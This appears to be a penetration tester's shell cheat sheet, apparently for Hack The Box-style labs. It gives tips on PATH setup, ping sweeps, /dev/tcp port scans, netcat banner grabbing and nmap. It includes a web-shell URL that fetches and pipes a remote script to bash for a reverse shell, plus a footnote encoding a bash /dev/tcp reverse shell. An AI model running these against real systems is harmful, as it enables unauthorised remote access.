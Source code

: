##### Add permanently

Append the path to the end of the config file:

	vim ~/.zshrc

```text
export PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/home/<user>/.local/bin"
```

### Get reverse shell

	http://10.129.171.59/templates/protostar/htb.php?pwn=curl 10.10.17.201/reverse_shell.sh | bash

### Ping sweep

```bash
for i in {1..255};      do (ping -c 1 172.16.1.$i | grep "bytes from" | cut -d ' ' -f4 | tr -d ':' &); done
for ip in $(seq 1 5);   do  ping -c 1 172.19.0.$ip > /dev/null && echo "Online: 172.19.0.$ip"; done
```

### Portscan

```bash
for port in 22 25 80 443 8080 8443; do
    (echo w00t > /dev/tcp/172.19.0.3/$port && echo "Open: $port") 2> /dev/null
done
```

```text
Open: 80
```

### Harvest banners

```bash
for i in {0..255};
	do nc -nvw2 192.168.0.$i [port-range];
	done
```

### Reset terminal line settings

	reset

### Create alias

	alias ll='ls -alF'

### Create variables

	ports=$(nmap -p- --min-rate= 1000 -T4 10.10.10.150 | grep ^[ 0-9 ] | cut -d '/' -f  1  | tr  '\n'  ',' | sed s/,$//)
	

[^1]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261